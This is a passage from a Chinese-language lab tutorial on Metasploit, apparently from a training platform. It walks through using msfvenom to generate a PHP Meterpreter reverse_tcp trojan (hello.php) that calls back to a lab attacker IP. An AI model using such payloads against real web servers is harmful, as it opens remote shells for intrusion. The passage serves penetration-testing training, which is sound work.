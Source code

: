 > Metasploit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web 应用程序扫描，社会工程。团队合作，在 Metasploit 和综合报告提出了他们的发现。这款工具，附带数百个已知的漏洞，并保持频繁更新。被整个安全社区冠以"可以黑掉整个宇宙"外号的渗透框架。


## 四、过程实现

### 4.1 生成 PHP 木马

一般情况下，要根据目标靶机的情况来制定相应的木马程序。通常木马程序受目标靶机所运行的环境影响，在本实验中，木马的运行环境只要是能运行 PHP 代码的环境即可。上一节介绍了基本的工具背景之后，我们在实验楼的 Kali Linux 环境下，使用如下命令创建一个 PHP 木马文件，文件名为 `hello.php`：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 -f raw > hello.php
```
这句话的意思是输入生成攻击者主机的 IP 地址为 `192.168.122.101` ，其中命令参数含义如下列表：

| 参数名称 | 所代表含义                                                   |
| -------- | ------------------------------------------------------------ |
| `-p`     | 指定需要使用的 payload (攻击荷载)。                          |
| `-l`     | 列出指定模块的所有可用资源。                                 |
| `-f`     | 指定输出格式 (使用 --help-formats 来获取 msf 支持的输出格式列表) |
| `-v`     | 指定一个自定义的变量，以确定输出格式。                       |

成功之后如图所示：

![图片描述](../imgs/1534155988211.png-wm.png)

之后可以使用 `ls` 命令，查看当前目录下的文件。此时 `hello.php` 木马文件已经生成，可以通过 `cat hello.php` 查看该文件的内容：

![图片描述](../imgs/1534155734467.png-wm.png)
